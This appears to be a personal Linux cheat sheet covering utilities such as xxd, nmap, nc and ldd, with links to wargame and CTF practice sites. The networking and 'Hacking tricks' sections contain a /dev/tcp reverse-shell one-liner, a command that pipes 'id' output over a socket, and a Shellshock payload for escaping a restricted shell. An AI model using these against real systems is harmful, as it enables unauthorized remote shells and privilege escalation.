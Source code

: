 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## File management
  **`xxd`**
    Create hex dumps

  **`strings`**
    Good for getting readable text out of dumps

  **`uniq`**
    Isolate unique lines in file

  **`diff`**
    Examine file differences. vimdiff better for extensive edits

  **`patch`**
    Apply changes to files

  **`mkfifo`**
    first in first out pipe. 

## Networking
  **`nmap`**
    Port scanning. 

  **`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

  **`telnet`**
    Deprecated, but useful for port testing

  **`openssl`**
    Openssl utility: key management, cert generation, etc.

  **`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

  **`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming

  **`ldconfig`**
    Can see installed libs, etc.

  **`ldd`**
    Useful to find what a program is linked against.

## Hacking tricks

  **shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell
